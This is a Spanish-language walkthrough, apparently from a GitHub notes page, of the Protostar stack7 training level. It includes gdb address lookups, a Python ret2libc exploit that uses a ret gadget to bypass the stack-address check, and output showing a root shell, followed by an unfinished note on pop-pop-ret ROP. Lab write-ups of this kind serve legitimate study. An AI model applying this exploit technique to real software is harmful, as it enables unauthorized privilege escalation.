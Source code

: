 ```console
(gdb) p &system
$3 = (<text variable, no debug info> *) 0xb7ecffb0 <__libc_system>
(gdb) p &exit
$4 = (<text variable, no debug info> *) 0xb7ec60c0 <*__GI_exit>
(gdb) info proc map
0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
[user@protostar]-[/opt/protostar/bin]:$  strings -atx /lib/libc-2.11.2.so | grep "bin/sh"
 11f3bf /bin/sh
(gdb) p/x 0xb7e97000 + 0x11f3bf
$6 = 0xb7fb63bf
(gdb) x/s 0xb7fb63bf
0xb7fb63bf:      "/bin/sh"
```
Las direcciones son las mismas que antes y el offset igual asi que usamos el exploit ret2libc de ./stack6
```
```console
[user@protostar]-[/opt/protostar/bin]:$ (python /tmp/exploit.py;cat) | ./stack7
input path please: bzzzt (0xb7ecffb0)
```
Resulta ser que la direccion de system empeiza por 0xb algo, asi que nos la chapa. Que hacer? tirar del recurso del RET para retrasar el eip y burlar la medida.
```console
(gdb) disas getpath
0x08048544 <getpath+128>:       ret 
```
```python
import struct
padding = "A" * 80
ret = struct.pack("I", 0x08048544)  # Lo único nuevo
system = struct.pack("I",0xb7ecffb0)
exit = struct.pack("I",0xb7ec60c0)
bin_sh = struct.pack("I",0xb7fb63bf)
print(padding + ret + system + exit + bin_sh)
```
```console
[user@protostar]-[/opt/protostar/bin]:$ (python /tmp/exploit.py;cat) | ./stack7
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADAAAAAAAAAAAAD�����`췿c��
whoami
root
```

------------------------------------------

EN CONSTRUCCION


# Extra ROP programming -> POP POP RET
[Fuente](https://decepticode.wordpress.com/2018/09/08/protostar-stack7/)

La instruccion pop pop ret pasa dos argumentos (uno por POP) a la funcion a la que apunta RET.
¿Y como lo hace? POP en ensamblador saca un valor de la pila y lo mete en un registro. Resulta ser que para pasarle argumentos a una funcion, estos se tienen que meter en dichos registros ¿CUales? los que nos digan las calling conventions.
